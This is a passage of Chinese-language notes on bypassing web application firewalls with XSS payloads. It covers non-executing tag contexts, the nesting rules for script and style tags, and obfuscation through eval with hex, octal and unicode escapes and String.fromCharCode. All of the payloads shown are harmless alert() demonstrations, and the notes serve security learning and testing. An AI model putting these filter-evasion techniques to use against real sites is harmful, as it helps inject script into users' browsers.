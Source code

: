 ## 绕过waf

- 基本知识:

    - **输出在html标签之间，过滤转义<>等，绕不过的，放弃。**

    - js的注释只会注释到js所在区域,不会注释到html上.

    - 当匹配到一个`<script>`后需要匹配到`</script>`才算是一个js区域,如果`<script>`里面还添加`<script>`,改区域内js代码就出错了.

    - html对大小写不敏感，js对大小写敏感。

    - 当输出点位于下列这些HTML标签之间时，Javascript脚本是无法执行的

        ```
        <title></title>
        <textarea></textarea>
        <xmp></xmp>
        <iframe></iframe>
        <noscript></noscript>
        <noframes></noframes>
        <plaintext></plaintext>
        
        例如：
        代码<title><script>alert`1`</script></title>是不会弹框的,只能闭合前面标签。
        ```

    - 不能相互嵌套的标签：

        -  `<script>`和`<style>`这两类标签是无法相互嵌套的，如果这两种标签嵌套使用，则代码不生效
        -  `<style>`标签中的JS代码也是不会被执行/生效的，反之也一样。

    - javascript是弱类型语言：

        -  `<a href="javascript:alert(1)sda6415">click me</a>`
        -  当alert(1)后面出现其他字符时，alert(1)是无法正常弹窗的，常见方法是使用注释符//将后面多于内容注释掉。
        -  但由于javascript是弱类型语言，我们可以使用逻辑运算符|  ||  &  && -  这些符号把alert后面多余内容给分割掉。经测试，当前仅IE浏览器不支持这种方法。

    - eval()函数:

        -  javascript中有个原生函数，eval()，该函数可执行字符串，重点是它可以解析16进制、8进制的编码

            ```
            16进制的例子：
            
            <script>eval("\u0061\u006c\u0065\u0072\u0074\u0060\u0031\u0060")</script>
            
            <script>eval("\x61\x6c\x65\x72\x74\x28\x27\u4f60\u597d\x27\x29")</script>
            
            8进制的例子：
            
            <script>eval("\141\154\145\162\164\50\47\u4f60\u597d\47\51");</script>
            ```

        -  eval（）虽然不能直接执行10进制形式的脚本，但可以配合String.fromCode()函数使用，该函数可以将数字转换为ASCII值。例子如下：

            ```html
            <iframe src="javAScript:eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))"></iframe>
            ```
